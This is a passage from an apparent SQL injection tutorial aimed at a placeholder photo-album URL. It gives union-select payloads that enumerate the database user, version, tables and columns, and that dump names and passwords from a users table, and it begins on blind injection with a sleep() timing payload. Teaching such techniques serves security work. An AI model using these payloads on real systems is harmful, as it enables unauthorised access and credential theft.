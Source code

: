 To find out which columns are being outputted we can use the **union select** command. So we do the command like this

```text
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,5,6,7,8,9
```

For all the columns that exists. This will return the numbers of the columns that are being outputted on the website. Take note of which these columns are.

**Step 4 - Start enumerating the database**

Now we can use that field to start outputing data. For example if columns number five has been visible in step 3, we can use that to output the data.

Here is a list of data we can retrieve from the database. Some of the syntaxes may difference depending on the database engine \(mysql, mssql, postgres\).

```text
# Get username of the sql-user
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,user(),6,7,8,9

# Get version
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,version(),6,7,8,9

# Get all tables

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

# Get all columns from a specific table

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'

# Get content from the users-table. From columns name and password. The 0x3a only servers to create a delimitor between name and password

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,concat(name,0x3a,
password),6,7,8,9 FROM users
```

#### Blind sql-injection <a id="blind-sql-injection"></a>

We say that it is blind because we do not have access to the error log. This make the whole process a lot more complicated. But it is of course still possible to exploit.

**Using sleep**

Since we do not have access to the logs we do not know if our commands are syntaxically correct or not. To know if it is correct or not we can however use the sleep statement.

```text
http://example.com/photoalbum.php?id=1-sleep(4)
```

If it lods for four seconds exta we know that the database is processing our sleep\(\) command.
